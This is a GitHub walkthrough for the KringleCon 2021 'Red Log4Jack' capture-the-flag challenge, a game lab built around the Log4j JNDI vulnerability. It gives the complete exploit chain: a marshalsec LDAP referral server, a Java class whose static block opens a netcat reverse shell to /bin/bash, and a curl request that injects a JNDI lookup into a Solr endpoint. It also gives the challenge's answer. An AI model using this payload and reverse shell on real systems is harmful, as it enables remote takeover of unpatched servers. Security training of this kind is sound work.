








# Bonus) Red Log4Jack

 KringleCon 2021 released 2 bonus objectives in view of the Log4j RCE vulnerability that was discovered early Dec 2021:  
1. Red Log4Jack
2. Blue Log4Jack
This README is a walkthough to solving the **Red Log4Jack** bonus objective

Hints provided by Icky McGoop:
- Join Bishop Fox for [a discussion](https://bishopfox.com/blog/log4j-zero-day-cve-2021-44228) of the issues involved.
- Josh Wright's [help document](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4) for the Red challenge.

Answer: **patching**

---
## Walkthrough

You can find the the Bonus stage for Red Log4Jack at _The North Pole_.

To get to The Bonus stage of Red Log4Jack, just head to _The North Pole_. Right between the Santa's Castle and Frost Tower is the Bonus! Red Log4Jack terminal with Icky McGoop beside.  
First reach out to Icky McGoop to understand the situation.


---
## Solution

Icky McGoop asked us to see if we can get to the _.log_ file within the `Bonus! Red Log4Jack` terminal.

Access the terminal:  


You can follow the instructions at this website: https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4.  

at the middle console, run the following commands:  
`cd marshalsec/`  
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<YOUR_TERMINAL_IP>:8080/#YuleLogExploit"`  
-- Do replace the <YOUR_TERMINAL_IP> with your terminal IP which can be found at the top of the console under **Serving HTTP ON <YOUR_TERMINAL_IP> port 8080 ...** or **Listening on [<YOUR_TERMINAL_IP>] 4444 ...**  


On bottom console, run the following command:  
`cd web`  
`nano YuleLogExploit.java`  
copy the code into the nano editor:  
```
public class YuleLogExploit {  
    static {  
        try {  
            java.lang.Runtime.getRuntime().exec("nc <YOUR_TERMINAL_IP> 4444 -e /bin/bash");  
        } catch (Exception err) {  
            err.printStackTrace();  
        }  
    }  
}
```
-- Again make sure to change the <YOUR_TERMINAL_IP> with your terminal IP.

Next compile the exploit using javac compile with this command:  
`javac YuleLogExploit.java`  
`ls`  


Next, deliver the exploit to gain remote access by running the command below:  
`curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://<YOUR_TERMINAL_IP>:1389/YuleLogExploit\}'`  
-- Again make sure to change the <YOUR_TERMINAL_IP> with your terminal IP.  


With that, you will see update on the middle console and netcat listener console on the top right.  
Middle console:  
  
Top right console:  
  

On the netcat listener console, use the following command to get to the `kringle.txt` file on the server:  
`cat /home/solr/kringle.txt`  
  

on the bottom console, run the following to provide answer and earn an achievement:  
`runtoanswer`  
`patching`  

Answer: **patching**  
  